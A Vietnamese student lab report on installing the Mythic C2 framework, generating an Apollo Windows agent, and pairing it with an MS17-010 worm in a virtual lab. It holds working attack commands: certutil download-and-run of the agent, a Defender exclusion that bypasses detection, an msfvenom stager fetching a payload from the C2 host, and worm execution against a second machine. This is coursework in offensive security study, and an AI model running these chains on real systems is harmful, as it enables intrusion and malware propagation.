# Lab 3 

## Thông tin nhóm 
| Họ và Tên | MSSV | 
| -------- | -------- | 
| Nguyễn Văn Quốc Gia    | 24520415    |
| Trịnh Quang Minh    | 24521089    |

## Câu 4: Tìm hiểu tổng quan về hệ thống C2 Mythic

### Ý tưởng
Đề cho chọn một trong sáu nền tảng C2, em chọn Mythic vì nó chạy từng thành phần nằm trong một container riêng, nhìn thấy và đếm được. Em cài lên Kali rồi đọc trạng thái dịch vụ và đọc file cấu hình trong thư mục cài để trả lời cho câu hỏi đề.

### Kiến trúc tổng thể: một lõi cố định cộng các mô-đun cắm thêm

```bash
cd ~/Mythic && ./mythic-cli status
```

*Hình 1. Trạng thái các container Mythic trên máy chủ C2.*
-> `Mythic Main Services` có 8 container, `Installed Services` chỉ có `apollo` và `http`

Mythic in ra hai bảng vì hai nhóm khác nguồn gốc: 8 container bảng trên đi kèm mã nguồn Mythic và lên cùng lúc với `./mythic-cli start`, còn `apollo` với `http` là hai thư mục em tải thêm bằng `./mythic-cli install github`.

=> đúng mô hình client-server có chỗ thêm: lõi giữ cơ sở dữ liệu, hàng đợi và giao diện, còn agent và giao thức liên lạc là mô-đun rời. Thêm agent mới thì lõi không sửa dòng nào, chỉ thêm container


### Các thành phần chính nằm ở container nào
Em dò từng tên đề liệt kê về đúng container đọc được ở Hình 1:

- **UI console**: `mythic_nginx` mở giao diện ở `https://127.0.0.1:7443`, trang do `mythic_react` sinh ra
- **Listener**: container `http`, mở cổng chờ bot gọi về
- **Communication handler**: cũng là container `http`, nó quy định bot nói chuyện bằng giao thức và dạng gói tin nào
- **Payload**: container `apollo`, chỗ giữ mã nguồn agent và trình biên dịch sinh ra file cho victim
- **Implant**: chính file mà `apollo` sinh ra rồi chạy trên máy victim, không phải một container
- **Lõi client-server**: `mythic_server`, nơi nhận báo cáo của bot và phát lệnh xuống
- **Cơ sở dữ liệu**: `mythic_postgres` ở `127.0.0.1:5433`
- **Lớp API**: `mythic_graphql` ở `127.0.0.1:8080`, giao diện web lấy dữ liệu qua đây
- **Hàng đợi nội bộ**: `mythic_rabbitmq` ở `127.0.0.1:5672`, đường nói chuyện giữa lõi và các container cắm thêm

Hai tên em không chắc nhất là listener và communication handler nên em kiểm riêng. Container `http` chạy với `network_mode: host` nên nó giữ thẳng cổng 80 của Kali chứ không qua ánh xạ cổng của Docker, vì vậy Hình 1 không in cổng nào cho nó.

**[Kali]**
```bash
curl -si http://127.0.0.1/ | head -9
```

**[Kali]**
```bash
grep -E '"(port|use_ssl|error_status_code|Server)"' ~/Mythic/InstalledServices/http/http/c2_code/config.json
```

*Hình 2. Đối chiếu header của cổng 80 với file cấu hình của C2 profile http.*
-> `404` và `Server: NetDNA-cache/2.2` trong header curl đúng là hai giá trị ghi trong `config.json`.Ba giá trị trùng nhau nên tiến trình đang giữ cổng 80 chính là C2 profile `http

=> ở Mythic, listener và communication handler là cùng một mô-đun: container `http` vừa mở cổng chờ bot, vừa quy định dạng gói tin. em check thêm thấy`./mythic-cli help` cũng không có mục con nào tên listener


### Yêu cầu hệ điều hành, ngôn ngữ lập trình và cơ sở dữ liệu
Thứ duy nhất em cài thêm là Docker và `make`. Em không phải cài nhiều vì mỗi container tự mang theo môi trường của nó, và dòng `FROM` đầu mỗi Dockerfile cho thấy điều này.

**[Kali]**
```bash
cd ~/Mythic && grep -rn --include=Dockerfile -m1 "^FROM" . 2>/dev/null | sort
```

*Hình 3. Ảnh gốc của từng container, đọc từ dòng FROM của các Dockerfile.*
-> `mythic-docker` dựng trên `golang`, `MythicReactUI` trên `node`, `postgres-docker` trên `postgres:15-alpine`, `InstalledServices/apollo` trên `dotnet/sdk:8.0`


- **Hệ điều hành máy chủ**: Linux chạy được Docker, Kali của em dùng gói `docker.io` và `docker-compose` có sẵn trong repo
- **Hệ điều hành máy victim**: Windows, vì `apollo` khai `supported_os = Windows` và cần .NET Framework 4.0
- **Ngôn ngữ lõi**: Go, cả `mythic_server` và C2 profile `http` đều `FROM golang`
- **Ngôn ngữ giao diện**: JavaScript, `MythicReactUI` dựng trên `node` rồi build thành React
- **Ngôn ngữ agent**: C#, `apollo` dựng trên `dotnet/sdk` để biên dịch mã agent thành file chạy được trên Windows
- **Cơ sở dữ liệu**: PostgreSQL 15, container `mythic_postgres`
- **Lớp API**: Hasura GraphQL, container `mythic_graphql`
- **Hàng đợi**: RabbitMQ, container `mythic_rabbitmq`

Cổng mặc định của PostgreSQL là 5432, nhưng Kali của em đã có một PostgreSQL khác giữ cổng đó nên em đổi bằng `./mythic-cli config set POSTGRES_PORT 5433`, vì vậy Hình 1 in ra 5433.

=> máy chủ chỉ cần một bản Linux có Docker, ba ngôn ngữ và cơ sở dữ liệu đều đi sẵn trong image. Nhưng máy victim thì buộc là Windows có .NET Framework 4.0, vì agent em chọn viết bằng C#

## Câu 5: Cài đặt và xây dựng máy chủ C2

### Ý tưởng
Câu 4 đọc một hệ thống đang chạy, câu này ghi lại trình tự em dựng nó lên rồi thả agent sang victim, theo đúng ba việc đề hỏi.

### Dựng máy chủ C2 trên Kali bằng Docker (mục a)

Payload mang sẵn địa chỉ gọi về nằm trong file nhị phân, nên IP của Kali đổi là mọi payload đã sinh vô dụng. Dải DHCP của VMnet8 cấp từ `.128` tới `.254`, em lấy `.50` nằm ngoài dải đó. Mythic không có gói apt, em clone mã nguồn rồi để `make` lấy `mythic-cli` ra từ image có sẵn: `sudo make` mà `docker cp` file dựng sẵn ra, nên máy không cần Go.

**[Kali]** 
```bash
sudo nmcli connection modify "Wired connection 1" ipv4.method manual ipv4.addresses 192.168.201.50/24 ipv4.gateway 192.168.201.2 ipv4.dns 192.168.201.2
sudo nmcli connection up "Wired connection 1" && ip -4 -br a show eth0
sudo apt install docker.io docker-compose make git
sudo usermod -aG docker $USER
git clone https://github.com/its-a-feature/Mythic
cd ~/Mythic && sudo make
```
-> `eth0  UP  192.168.201.50/24`, đúng địa chỉ em sẽ nhúng vào payload ở phần sau

Trước khi `start` em kiểm cổng và thấy Kali có sẵn dịch vụ `postgresql` giữ 5432, nên đổi cổng của Mythic thay vì tắt dịch vụ cũ của máy mình. Lõi Mythic lên xong vẫn chưa sinh được payload nào vì agent và giao thức là mô-đun rời như Câu 4 đã chỉ ra.

**[Kali]**
```bash
sudo ./mythic-cli config set POSTGRES_PORT 5433
sudo ./mythic-cli start
sudo ./mythic-cli install github https://github.com/MythicAgents/apollo
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
ss -ltn | grep -E ":5432|:5433"
```

*Hình 1. Hai PostgreSQL cùng chạy trên Kali, mỗi cái giữ một cổng.*
-> 5432 là `postgresql` của Kali, 5433 là `mythic_postgres`. 

**[Kali]**
```bash
curl -sk -o /dev/null -w "%{http_code} -> %{redirect_url}\n" https://192.168.201.50:7443/
```

*Hình 2. Giao diện console Mythic truy cập từ máy host qua mạng NAT.*
-> `301 -> https://192.168.201.50:7443/new/login`, console mở được từ ngoài máy Kali nên phần sau em bấm trực tiếp trên giao diện này


### Tạo payload và deploy agent trên victim (mục b)

Em bấm `Generate New Payload` ở trang `Payloads` rồi đi qua bốn bước `Select Target OS` -> `Payload Type` -> `Select Payload` -> `Build`.

- `Callback Host` : `http://192.168.201.50` , `Callback Port` : `80`
- `Callback Interval in seconds` : `10` , `Callback Jitter in percent` : `23`
- `Perform Key Exchange` : `true` , `Encryption Type` : `aes256_hmac`
- `POST request URI (don't include leading /)` : `data`
- `output_type` : `WinExe`, vì victim của em là Windows và đã có .NET Framework `4.6.00079`


*Hình 3. Thông tin payload và tham số build đọc lại trên console.*
-> `Payload Type` là `apollo`, `Filename` là `svc_update.exe`, `Size` `1.64 MB`, và `output_type` là `WinExe`


*Hình 4. Tham số C2 của payload, đọc lại sau khi build xong.*
-> `callback_host` là `http://192.168.201.50` chứ không còn `https://domain.com`, kèm `callback_port` `80`, `callback_interval` `10`, `callback_jitter` `23`, `post_uri` `data`


Mythic lưu file theo id nội bộ, nên em đọc thư mục `files` rồi tự đổi tên và đẩy sang web server.

**[Kali]**
```bash
ls -l ~/Mythic/mythic-docker/src/files/
file ~/Mythic/mythic-docker/src/files/*
cp ~/Mythic/mythic-docker/src/files/* ~/lab3/share/svc_update.exe
curl -sI http://192.168.201.50:8000/svc_update.exe   # tu kiem web server
```
-> `1716224` byte, `PE32 executable ... Intel i386 Mono/.Net assembly`, và `Content-Length` của `curl` trả về đúng con số đó

**[Victim Win 10 - PowerShell admin]**
```powershell
certutil -urlcache -split -f http://192.168.201.50:8000/svc_update.exe C:\lab\svc_update.exe
Get-MpThreat | Select-Object ThreatName,Resources,IsActive | Format-List
```

*Hình 5. Defender bắt payload apollo ngay lúc certutil ghi file xuống đĩa.*
-> `certutil` in `1a3000` tức `0x1a3000 = 1716224` byte và báo `completed successfully`, nhưng `Get-MpThreat` gán cho file đó tên họ `Trojan:MSIL/MythicApollo.APM!MTB`, cột `Resources` liệt kê cả `C:\lab\svc_update.exe` lẫn bản tạm trong `INetCache`

Tên họ `Trojan:MSIL/MythicApollo.APM!MTB` cho thấy Defender nhận ra đúng agent apollo của Mythic chứ không bắt chung chung, nên đổi tên file hay đổi thư mục là vô ích. Cột `IsActive` là `False` vì Defender đã xử lý xong mối đe doạ đó, chứ không phải vì nó bỏ qua. Phần qua mặt Defender là việc của Câu 8, nên ở đây em khai báo loại trừ thư mục và ghi rõ đây là một bước nới lỏng có chủ ý.

**[Victim Win 10 - PowerShell admin]**
```powershell
Add-MpPreference -ExclusionPath C:\lab
Remove-MpThreat
(Get-MpPreference).ExclusionPath
```
-> in ra `C:\lab`, tải lại thì `dir` thấy `svc_update.exe` còn nguyên `1,716,224` byte, lần trước file đã bị xoá mất

### Quan sát kết nối và điều khiển nạn nhân từ phía C2 (mục c)

Lần đầu em cho chạy agent từ chính cửa sổ đang thao tác thì nó gọi về đúng một lần rồi tắt, vì tiến trình con chết theo cửa sổ cha. Em cho `wmic` đẻ tiến trình để nó không treo vào cửa sổ nào.

**[Victim Win 10 - cmd]**
```cmd
wmic process call create "C:\lab\svc_update.exe"
tasklist /FI "IMAGENAME eq svc_update.exe"
```
-> `ReturnValue = 0` và `tasklist` in `svc_update.exe` ở `Session 0`, không còn dính vào cửa sổ nào

Em gõ lệnh vào ô nhập của callback trên console. Lệnh `shell` của apollo không tự chạy lệnh mà đẻ ra một tiến trình `cmd.exe /C`, nên thứ chạy trên victim là cmd chứ không phải agent.

**[Console Mythic - o lenh cua callback Victim 1]**
```
shell whoami
shell ipconfig | findstr IPv4
ps
```

*Hình 6. Bot nhận lệnh từ C2 và trả kết quả.*
-> `shell whoami` trả `desktop-iuj6q9f\me`, `shell ipconfig` trả `192.168.201.136` đúng IP victim, `ps` trả bảng tiến trình đủ cột `PPID`, `PID`, `ARCH`, `NAME`, `USER`, `SESSION`


Bảng callback chỉ cho biết kết quả, em bắt gói ngay trên Kali để xem bot gửi cái gì lên đường truyền.

**[Kali]**
```bash
tshark -i eth0 -a duration:40 -f "tcp port 80 and host 192.168.201.136" -w agent_http.pcap
tshark -r agent_http.pcap -Y http -T fields -e ip.src -e http.request.method -e http.request.uri -e http.user_agent -e http.content_length
```

*Hình 7. Bot gọi về bằng HTTP POST tới URI đã khai lúc build.*
-> 4 lần `POST /data` trong 40 giây, `User-Agent` đúng chuỗi em đặt ở ô `HTTP Headers`, mỗi gói `Content-Length` 264, server trả `200`

Ba khoảng cách giữa 4 lần gọi về là `10.81s`, `12.25s`, `9.38s`, nằm đúng trong khoảng `10 +- 2.3` giây mà hai ô `Callback Interval` 10 và `Callback Jitter` 23% cho phép. Gỡ một gói POST ra thì `264` byte trên đường truyền là base64 của `196` byte, gồm `36` byte đầu là chuỗi `ea5577ee-b7bb-46b9-82d7-0c99ecfc629f` để nguyên dạng chữ đúng `agent_callback_id` của bot trong cơ sở dữ liệu, `16` byte IV, và `160` byte mã hoá có entropy `6.77` bit mỗi byte.

=> bot tự mở kết nối ra ngoài chứ C2 không gọi vào, nên firewall của victim chặn inbound vẫn không cản được. Định danh bot đi rõ trong gói để server biết giải mã bằng khoá nào, phần nội dung lệnh thì không đọc được từ đường truyền

## Câu 7: Tích hợp Worm Payload từ lab trước

### Ý tưởng
Câu 5 đưa agent sang victim bằng tay qua `certutil`. Câu này thay bước đưa tay đó bằng worm MS17-010 của buổi trước, theo đúng chiều đề yêu cầu: worm trở thành payload của C2 rồi được bắn đi từ chính C2, chứ không phải C2 đi phát tán worm.

### Đo ô chứa của worm cũ rồi dựng stager (mục a)

Worm buổi trước bắn một khối shellcode duy nhất qua lỗ hổng SMBv1, gồm phần kernel đưa mã lên userland rồi nối tiếp phần userland tự chọn. Phần thay được là phần thứ hai.

**[Kali]**
```bash
ls -l ~/lab2/cau9/sc_x64_kernel.bin ~/lab2/cau9/sc_x64_msf.bin
grep -n "NTFEA_SIZE *=" ~/lab2/cau9/ms17_010_eternalblue.py
ls -l ~/Mythic/mythic-docker/src/files/
```

*Hình 1. Kích thước ô chứa trong worm cũ đặt cạnh kích thước agent của Mythic.*
-> `772 + 460 = 1232` byte là khối worm cũ, buffer của exploit là `NTFEA_SIZE = 0x11000` tức `69632` byte, còn payload apollo dạng `Shellcode` là `1747413` byte


`1747413 / 69632 = 25.1` lần, tức agent apollo không chỉ lớn hơn ô `460` byte của worm cũ mà còn lớn hơn cả buffer exploit cấp phát được. Nên em để worm mang một stager nhỏ, stager kéo agent về rồi chạy, agent đầy đủ đi bằng đường HTTP chứ không đi trong gói SMB.

**[Kali]** - cần `metasploit-framework`, kiểm bằng `which msfvenom`
```bash
msfvenom -p windows/x64/exec EXITFUNC=thread \
  CMD="cmd.exe /c certutil -urlcache -split -f http://192.168.201.50:8000/svc_update.exe C:\Windows\Temp\su.exe & wmic process call create C:\Windows\Temp\su.exe" \
  -f raw -o stager_wmic.bin
cat ~/lab2/cau9/sc_x64_kernel.bin stager_wmic.bin > sc_wmic.bin
ls -l stager_wmic.bin sc_wmic.bin
```
-> `Payload size: 510 bytes`, khối ghép lại là `772 + 510 = 1282` byte, chiếm ít buffer 

=> giữ nguyên phần kernel `772` byte của buổi trước nên đường vào không đổi, chỉ đổi thứ chạy sau khi đã vào được. Các bước trong stager nối bằng `&`, vì `certutil` trả mã khác 0 khi server trả `404` nếu dấu `&&` sẽ cắt đứt phần còn lại

### Đẩy worm xuống bot rồi bắn từ chính C2 (mục b)

Đề bắt triển khai worm từ hệ thống C2, nên em không dùng `certutil` tay như Câu 5 mà gõ mọi thứ qua ô lệnh của callback Victim 1. Bản worm em dùng là file `.exe` PyInstaller đã đóng gói ở buổi trước, buổi đó nó chết trên Windows 7 vì thiếu `api-ms-win-crt-runtime-l1-1-0.dll`, nhưng ở đây nó chạy trên Victim 1 là Windows 10 nên có sẵn thư viện đó.

**[Kali]**
```bash
nmap -p445 -Pn --script smb-os-discovery,smb-vuln-ms17-010 192.168.201.140
```

*Hình 2. Victim 2 còn nguyên lỗ hổng MS17-010.*
-> `State: VULNERABLE`, `CVE:CVE-2017-0143`, OS là `Windows 7 Professional 7601 Service Pack 1`

**[Console Mythic - ô lệnh cua callback Victim 1]**
```
shell certutil -urlcache -split -f http://192.168.201.50:8000/eb.exe C:\lab\eb.exe
shell certutil -urlcache -split -f http://192.168.201.50:8000/sc_wmic.bin C:\lab\sc_wmic.bin
shell C:\lab\eb.exe 192.168.201.140 C:\lab\sc_wmic.bin
```

*Hình 3. Worm chạy trên bot thứ nhất và khai thác sang máy thứ hai.*
-> `shellcode size: 1282` đúng khối đã ghép, `Target OS: Windows 7 Professional 7601 Service Pack 1`, rồi `good response status: INVALID_PARAMETER`


Dòng `INVALID_PARAMETER` là dấu hiệu khai thác đc. Kiểm ở phía web server thì `grep 192.168.201.140 ~/lab3/http.log` cho dòng `"GET /svc_update.exe HTTP/1.1" 200` với địa chỉ nguồn là Victim 2, tức stager đã chạy và máy đó tự kéo agent về. Nhưng bảng callback vẫn chỉ có một dòng.

### Bốn lượt bắn trượt và cách khoanh vùng (mục b)

Agent sang tới nơi mà không gọi về, em loại trừ dần, mỗi giả thuyết một lượt bắn:

- `start` làm agent chết theo tiến trình cha : **sai**, đổi sang `wmic process call create` và cắm mốc `WMIC_FIRED` ở cuối chuỗi, mốc có hiện trong log mà callback vẫn không lên
- `wmic` kén đường dẫn không có dấu nháy : **sai**, chạy thử cả hai kiểu trên Victim 1 đều trả `ReturnValue = 0`
- máy thứ hai thiếu .NET : gần đúng, stager dò bằng `if exist` trả về đường dẫn `PROBE_NET4_NO`, em cài .NET 4.0 cho nó, mốc `NET4_OK` hiện trong log nhưng callback vẫn không lên
- .NET cài với cờ `/norestart` nên chưa đăng ký : **sai**, khởi động lại máy rồi bắn tiếp vẫn không gọi về

Hết đường đoán từ xa, em quay về đọc mã nguồn của chính agent.

**[Kali]**
```bash
grep -rhoE "<TargetFramework[s]?>[^<]+</TargetFramework[s]?>" ~/Mythic/InstalledServices/apollo | sort | uniq -c
sed -n '147,151p' ~/Mythic/InstalledServices/apollo/apollo/mythic/agent_functions/builder.py
```

*Hình 4. Mức .NET agent thật sự cần, đọc từ file dự án của nó.*
 
 -> cả `26` file `.csproj` đều khai `<TargetFramework>net451</TargetFramework>`, trong khi dòng `note` mà Mythic hiển thị lại ghi `A fully featured .NET 4.0 compatible training agent`

`net451` là .NET Framework `4.5.1`. Em cài `4.0` vì tin dòng `note`, mà assembly biên dịch cho `4.5.1` thì không chạy trên nền `4.0`. Victim 1 không vướng vì nó sẵn `4.6.00079`.

=> ba giả thuyết đầu đều bắt nguồn từ việc em tin `note` của agent thay vì đọc file dự án của nó. lệnh `grep` trên `.csproj` ngay từ đầu đã tiết kiệm được các lượt bắn

### Cài đúng mức .NET rồi bắn lại, worm lan sang thành công (mục b)

Em cài .NET Framework 4.5.2 lên máy thứ hai, đây là bước chuẩn bị môi trường, giống như máy đó phải bật sẵn SMBv1 thì lỗ hổng mới dùng được. Kiểm bằng khoá `Release` chứ không phải `Version`, vì mọi bản 4.x đều ghi `Version` là `4.0.30319`.

**[Victim 2 - Win7 - PowerShell admin]**
```powershell
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Release
```

*Hình 5. Mức .NET trên máy thứ hai sau khi cài lại.*
-> `Release REG_DWORD 0x5cbf5`, đổi ra hệ mười là `379893`, đúng mốc của .NET Framework `4.5.2`, cao hơn mức `net451` agent cần


Rồi em bắn lại đúng worm `sc_wmic.bin`, vẫn gõ từ ô lệnh của callback Victim 1 như Hình 3, không đổi gì khác.

